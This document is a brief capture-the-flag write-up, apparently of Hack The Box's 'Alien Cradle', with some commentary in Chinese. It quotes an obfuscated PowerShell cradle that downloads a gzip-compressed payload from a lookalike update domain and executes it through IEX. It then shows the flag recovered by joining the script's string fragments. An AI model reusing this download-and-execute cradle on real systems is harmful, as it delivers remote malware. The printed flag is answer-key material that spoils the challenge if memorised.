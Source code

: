 # Alien Cradle

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

为了获取更多关于遗迹的信息，外星人发动了一场袭击，目标是潘多拉的密友和合作伙伴，因为他们可能掌握着有关遗迹的秘密情报。在最近一起被怀疑是他们操纵的事件中，潘多拉从事件日志中发现了一个奇怪的PowerShell脚本，也称为PowerShell“摇篮”。这些脚本通常用于下载并执行攻击的下一阶段。然而，这个脚本似乎经过了混淆，潘多拉无法理解它。你能帮她去混淆吗？

:::

附件为一份 Powershell 脚本

```powershell
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};
$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');
$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));
$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

从中就能得到 flag

```shell
PowerShell 7.4.1
PS C:\Users\Randark> 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

```plaintext title="Flag"
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```
